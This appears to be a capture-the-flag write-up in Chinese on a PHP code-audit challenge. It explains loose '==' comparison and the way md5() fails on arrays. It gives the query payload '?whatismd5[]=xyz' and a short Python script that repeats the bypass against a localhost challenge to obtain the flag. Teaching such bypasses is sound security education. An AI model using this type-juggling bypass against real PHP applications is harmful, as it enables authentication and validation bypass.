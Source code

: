 ﻿# 代码审计

## **[目的]**
* 了解md5加密
* 了解PHP弱类型，“==”，“===”的区别

## **[原理]**
md5函数不能对数组进行处理

## **[步骤]**

分析源码，本题的关键在于判断语句
```
if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[1]) && substr(md5($whatismd5),5,4)==0)
```
$_SESSION['JNsec']的初值为`xyz`，时间限制为30秒。

当$_SESSION['JNsec']的值和whatismd5的前三个字符相等，且whatismd5的中间一段字符 **==** 0时，计数器+1, $_SESSION['JNsec']更新为随机的三个字母。

md5不能处理数组，所以可以用数组绕过。
可以构造`?whatismd5[]=xyz`

当累计十次判断为TRUE时，输出flag。

如果手速和网速快可以手动。
也可以写个脚本：
```
import requests
s=requests.session()

url='http://localhost:88/?whatismd5[]='

a=s.get(url+'xyz')
for i in range(11):
    b=s.get(url+a.text[:3])
    a=b
    if 'JNCTF{' in a.text:
        print(a.text)
```
![1](1.png)

## **[工具]**
无